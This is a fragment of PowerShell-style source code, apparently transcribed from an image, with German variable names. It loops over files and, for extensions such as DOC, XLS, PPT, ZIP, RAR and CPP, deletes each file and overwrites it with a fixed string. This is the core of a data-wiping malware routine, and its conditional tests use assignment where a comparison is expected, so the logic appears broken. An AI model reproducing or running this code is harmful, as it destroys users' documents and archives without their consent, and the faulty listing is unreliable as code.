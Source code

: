             if ($strGetExt="WMA")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="DOC")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="XLS")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="RTF")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="PPS")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="PPT")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="ZIP")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="RAR")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
            
            if ($strGetExt="CPP")
            {
                del $AlleDateien.Path ;
                echo "$StringToOverwrite" >> $AlleDateien.Path
            }
        }
        
